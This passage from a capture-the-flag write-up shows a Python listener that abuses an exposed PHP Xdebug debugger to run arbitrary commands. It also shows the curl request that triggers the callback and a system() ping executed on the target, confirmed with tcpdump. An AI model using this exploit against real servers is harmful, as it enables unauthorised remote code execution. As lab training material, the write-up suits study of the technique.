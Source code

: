 <span class="k">while</span> <span class="bp">True</span><span class="p">:</span>
    <span class="n">client_data</span> <span class="o">=</span> <span class="n">conn</span><span class="p">.</span><span class="nf">recv</span><span class="p">(</span><span class="mi">1024</span><span class="p">)</span>
    <span class="nf">print</span><span class="p">(</span><span class="n">client_data</span><span class="p">)</span>

    <span class="n">data</span> <span class="o">=</span> <span class="nf">raw_input</span><span class="p">(</span><span class="sh">'</span><span class="s">&gt;&gt; </span><span class="sh">'</span><span class="p">)</span>
    <span class="n">conn</span><span class="p">.</span><span class="nf">sendall</span><span class="p">(</span><span class="sh">'</span><span class="s">eval -i 1 -- %s</span><span class="se">\x00</span><span class="sh">'</span> <span class="o">%</span> <span class="n">data</span><span class="p">.</span><span class="nf">encode</span><span class="p">(</span><span class="sh">'</span><span class="s">base64</span><span class="sh">'</span><span class="p">))</span>
</code></pre></div></div>

<p>To test it out, I’ll give Olympus a ping command, and use tcpdump to see if it works.</p>

<p>With script running, use curl to trigger Xdebug:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">root@kali# </span>curl http://10.10.10.83 <span class="nt">-H</span> <span class="s2">"Cookie: XDEBUG_SESSION=wpOCvcWXx5"</span>
</code></pre></div></div>

<p>Script gets callback. We can issue ping command:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">root@kali# </span>./exploit_xdebug.py
<span class="go">494&lt;?xml version="1.0" encoding="iso-8859-1"?&gt;
&lt;init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www/html/index.php" language="PHP" xdebug:language_version="7.1.12" protocol_version="1.0" appid="5380" idekey="XDEBUG_ECLIPSE"&gt;&lt;engine version="2.5.5"&gt;&lt;![CDATA[Xdebug]]&gt;&lt;/engine&gt;&lt;author&gt;&lt;![CDATA[Derick
Rethans]]&gt;&lt;/author&gt;&lt;url&gt;&lt;![CDATA[http://xdebug.org]]&gt;&lt;/url&gt;&lt;copyright&gt;&lt;![CDATA[Copyright (c) 2002-2017 by Derick Rethans]]&gt;&lt;/copyright&gt;&lt;/init&gt;
</span><span class="gp">&gt;&gt;</span><span class="w"> </span>system<span class="o">(</span><span class="s2">"ping -c 1 10.10.14.5"</span><span class="o">)</span>
<span class="go">336&lt;?xml version="1.0" encoding="iso-8859-1"?&gt;
&lt;response xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" command="eval" transaction_id="1"&gt;&lt;property type="string" size="61" encoding="base64"&gt;&lt;![CDATA[cm91bmQtdHJpcCBtaW4vYXZnL21heC9zdGRkZXYgPSA5NC4zNjEvOTUuMDcyLzk1Ljg2MS8wLjU2MiBtcw==]]&gt;&lt;/property&gt;&lt;/response&gt;
</span><span class="gp">&gt;&gt;</span><span class="w">
</span></code></pre></div></div>

<p>And we see result in tcpdump:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">root@kali# </span>tcpdump <span class="nt">-i</span> 2 icmp
<span class="go">tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
14:42:22.296409 IP 10.10.10.83 &gt; kali: ICMP echo request, id 5413, seq 0, length 64
14:42:22.296431 IP kali &gt; 10.10.10.83: ICMP echo reply, id 5413, seq 0, length 64
</span></code></pre></div></div>
